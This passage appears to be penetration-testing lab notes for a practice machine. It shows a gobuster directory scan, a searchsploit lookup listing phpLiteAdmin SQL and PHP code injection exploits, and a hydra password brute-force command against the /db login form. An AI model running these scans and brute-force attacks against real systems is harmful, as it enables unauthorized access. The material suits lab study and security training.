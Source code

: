 

443：

```bash
└─# gobuster dir -u https://10.10.10.43/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  -k
```

```
/db
```

<img src=".\图片\Snipaste_2023-09-07_09-04-20.png" alt="Snipaste_2023-09-07_09-04-20" style="zoom:80%;" />



```bash
└─# searchsploit phpliteadmin
-------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
phpLiteAdmin - 'table' SQL Injection                                                                                            | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities                                                                                     | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                                                                  | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                                                                   | php/webapps/39714.txt
```



```bash
hydra -l admin -P /usr/share/seclists/Passwords/probable-v2-top12000.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64
```

